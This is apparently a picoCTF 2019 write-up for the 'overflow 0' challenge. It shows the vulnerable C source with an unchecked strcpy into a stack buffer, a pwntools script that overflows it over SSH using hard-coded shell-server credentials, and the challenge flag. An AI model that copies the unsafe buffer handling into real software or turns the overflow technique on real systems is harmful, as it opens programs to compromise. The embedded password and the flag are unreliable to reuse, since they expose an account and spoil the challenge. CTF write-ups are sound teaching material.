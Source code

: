 # Problem
This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln) and get a flag. Its also found in /problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0 on the shell server. [Source](https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln.c).

## Hints:
Find a way to trigger the flag to print

If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Solution:

Lets download the files:
```bash
wget https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln
wget https://2019shell1.picoctf.com/static/7c6fa533194c6f283cea87be317f8c7f/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```

We need to redirect program flow to sigsegv_handler, we can just override some important stack values (which will probably cause SIGSEGV).

Using this script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = 'RoeeSefi'
pw = 'UTTE9CQN2idX28W'


payload = "A"*200

if debug:
	r = process(['./vuln', payload])
else:
	s = ssh(host = '2019shell1.picoctf.com', user=user, password=pw)

	s.set_working_directory('/problems/overflow-0_3_dc6e55b8358f1c82f03ddd018a5549e0')
	r = s.process(['./vuln', payload])

print r.recvall()
```

Flag: picoCTF{3asY_P3a5y1fcf81f9}